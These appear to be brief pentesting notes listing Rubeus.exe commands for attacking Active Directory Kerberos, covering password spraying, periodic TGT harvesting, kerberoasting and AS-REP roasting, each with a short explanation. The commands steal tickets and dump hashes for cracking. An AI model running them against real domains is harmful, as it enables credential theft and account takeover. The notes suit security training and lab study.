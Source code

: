 Rubeus.exe brute /password:Password1 /noticket
    - This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user 

Rubeus.exe harvest /interval:30 
    - This command tells Rubeus to harvest for TGTs every 30 seconds

Rubeus.exe kerberoast 
    - This will dump the Kerberos hash of any kerberoastable users

Rubeus.exe asreproast
    - This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.